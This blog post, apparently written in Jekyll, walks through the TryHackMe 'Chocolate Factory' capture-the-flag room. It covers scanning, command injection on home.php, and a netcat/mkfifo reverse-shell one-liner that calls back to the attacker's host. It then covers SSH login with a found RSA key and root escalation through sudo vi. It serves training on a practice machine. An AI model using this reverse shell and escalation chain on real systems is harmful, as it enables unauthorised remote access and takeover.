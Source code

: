 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2017-09-12 00:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

### Enumeration 
 
     sudo nmap -sV -sC -v <ip>
     <br />
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
the result like look,<br />

![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/nmap.png)  

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 
![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/indexphp.png)

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 

      gobuser dir -u <ip> -w /usr/share/seclists
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
 remember one thing  disable your ufw firewall before run the listerning netcat <br />
  listerning  our system 
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' <br />
   then list out file and read key
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   
    chmod 600 filename 
    
   login with ssh charlie 
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
   read the user key <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) <br />
   
 ### privilege escalation 
  
  check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   get root permission using vi <br />
   use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into terminal <br />
   Now root user <br >
   change charlie to root <br />
   
    su root 
    
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   run the file with key
   DONE 
  
 

